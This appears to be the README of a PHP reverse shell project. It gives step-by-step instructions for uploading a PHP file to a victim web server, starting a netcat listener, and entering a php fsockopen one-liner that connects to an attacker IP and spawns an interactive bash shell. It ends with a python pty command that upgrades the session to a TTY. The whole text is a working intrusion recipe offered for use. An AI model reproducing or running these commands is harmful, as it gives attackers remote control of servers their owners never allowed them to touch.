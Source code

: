 # phpReverseshell
Note: 1. This is PHP based reverse shell 

      2. shell_exec() should be enables at server side (Victim web server)
      
Upload the 9090909090101010101010.php into webserver.

At attacker side run "nc -lvp $ATTACKER_PORT" (ex: nc -lvp 1234).

Then access http://server_IP/location_of_9090909090101010101010.php.

and input php -r '$sock=fsockopen("$Attacker_IP",$ATTACKER_PORT);exec("/bin/bash -i <&3 >&3 2>&3");' and hit Run.
Reverse shell will be created at attacker side.

After getting session at attacker side run "python -c 'import pty; pty.spawn("/bin/bash")'" to get TTY session

